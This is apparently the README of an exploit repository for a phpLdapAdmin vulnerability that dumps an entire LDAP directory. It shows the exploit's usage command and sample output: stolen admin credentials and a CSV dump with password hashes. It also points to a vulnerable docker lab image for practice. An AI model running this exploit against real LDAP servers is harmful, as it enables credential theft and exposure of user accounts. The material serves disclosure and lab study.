

# phpLdapAdmin multiple vulns

[](https://hub.docker.com/r/vulnerables/phpldapadmin-remote-dump/)

[phpLdapAdmin](www.phpldapadmin.org) is a Web-based LDAP browser to manage your
LDAP server in its [last
version](https://github.com/leenooks/phpLDAPadmin/tree/733a10a1c57568bd5294d527f324fb220c8ee76c)
has a remote vulnerability that when exploited can lead to remote dumping the
whole LDAP server, inclusing user accounts and their respective passwords.

# Exploit



To run this exploit run `./exploit.sh http://host/htdocs/` (or the directory
containing the `cmd.php` file). Example:

``` 
./exploit.sh http://localhost:9999/htdocs/
[+] phpLdap remote exploit by OPSXCQ
    Get the source code at https://github.com/opsxcq/
[+] Trying to get the cookie value from http://localhost:9999/htdocs/
[*] Login stolen cn=admin,dc=vulnerable,dc=strm,dc=sh with password admin
[+] Logging in with the stolen credentials
[+] Dumping the database to CSV
"dn","dc","o","objectclass","cn","description","userpassword","gidnumber","givenname","homedirectory","loginshell","sn","uid","uidnumber"
"dc=vulnerable,dc=strm,dc=sh","vulnerable","strm.sh","top | dcObject | organization","","","","","","","","","",""
"cn=admin,dc=vulnerable,dc=strm,dc=sh","","","simpleSecurityObject | organizationalRole","admin","LDAP administrator","{SSHA}QUtf9EKvsgZbnYJt9cTd61qp1OPeu8An","","","","","","",""
"cn=users,dc=vulnerable,dc=strm,dc=sh","","","posixGroup | top","users","","","500","","","","","",""
"cn=Joe Hack,cn=users,dc=vulnerable,dc=strm,dc=sh","","","inetOrgPerson | posixAccount | top","Joe Hack","","{MD5}I7QiLSYTonZdTUMtLWXojg==","500","Joe","/home/users/jhack","/bin/bash","Hack","jhack","1000"
```

# Vulnerable environment

To simulate this attack you can use a vulnerable docker image. If you have
docker installed, just run:

```
docker run --rm -it -p 80:80 vulnerables/phpldapadmin-remote-dump
```

# Credits

This vulnerability was disclosed by [@le_keksec](https://twitter.com/le_keksec)
[on twitter](https://twitter.com/le_keksec/status/985660569989668866) and their
exploit code is included in this repo, and also can be found
[here](https://pastebin.com/raw/Rf002LdV).


# Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without
permission. The usual disclaimer applies, especially the fact that me (opsxcq)
is not liable for any damages caused by direct or indirect use of the
information or functionality provided by these programs. The author or any
Internet provider bears NO responsibility for content or misuse of these
programs or any derivatives thereof. By using these programs you accept the fact
that any damage (dataloss, system crash, system compromise, etc.) caused by the
use of these programs is not opsxcq's responsibility.

